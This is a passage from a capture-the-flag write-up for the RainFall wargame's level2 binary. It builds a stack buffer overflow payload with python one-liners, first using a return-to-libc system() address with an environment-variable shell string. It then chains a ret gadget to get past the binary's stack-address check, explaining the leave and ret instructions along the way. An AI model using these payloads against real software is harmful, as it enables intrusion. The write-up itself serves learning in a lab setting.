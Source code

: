 
```
level2@RainFall:/tmp$ gcc getenv.c; ./a.out BINSH ./level2
BINSH will be at 0xbfffff38
level2@RainFall:/tmp$
```
we are able to predict the address because environment variables are stored at the start of the stack frame which is relative of the programs name, which gives us `0xbfffff38`

So, our input shall be 
`python -c "print 'B' * 80 + '\xb7\xe6\xb0\x60'[::-1] + 'BEEF' + '\xbf\xff\xff\x38'[::-1]" > /tmp/out`

OOPS, I forgot about the check stack check earlier at `0x80484f2 - 0x80484f5` and I got the printf output.

```
level2@RainFall:~$ ./level2 < /tmp/out
(0xb7e6b060)
```

Based on [this SO post](https://stackoverflow.com/questions/5130654/when-how-does-linux-load-shared-libraries-into-address-space), **.so objects are loaded into mmaped memory (stack)** during runtime, hence failing the check.

I digged around the acutal working of the `lea` and `ret` instruction and here are the things they do according to [this](https://www.felixcloutier.com/x86/leave) and [this](https://www.felixcloutier.com/x86/ret).

The leave instruction does the following:

- Copies the frame pointer (in the EBP register) into the stack pointer register (ESP). This effectively releases the stack space that was allocated to the current function's stack frame.
- **Pops** the old frame pointer (the frame pointer for the calling procedure that was saved by the enter instruction) from the stack into the EBP register. This restores the calling procedure's stack frame 2.


The ret instruction does not take any operands and its operation is as follows:

- It **pops** the return address from the stack into the instruction pointer (EIP for x86, RIP for x86_64).
- It then jumps to the address stored in the instruction pointer.

![image](https://hackmd.io/_uploads/Sk6Sf7uSa.png)

As we can see, the `lea` and `ret` command pops from the stack, slowly consuming it. The `lea` command does not check if the value it pops is valid or not, neither does `ret`. It just **assumes** that all the data it popped is in the correct position and just writes to the registers.

With this knowledge, we are able to chain `ret` calls to bypass the stack check like so:

![image](https://hackmd.io/_uploads/B1xWEX_ST.png)

To prove that, I made the input command using the command below. the `'\x08\x04\x85\x3e'[::-1]`s are addresses to the `ret` instructions.

`python -c "print 'B' * 80 + '\x08\x04\x85\x3e'[::-1] + '\xb7\xe6\xb0\x60'[::-1] + 'BEEF' + '\xbf\xff\xff\x38'[::-1]" > /tmp/out`
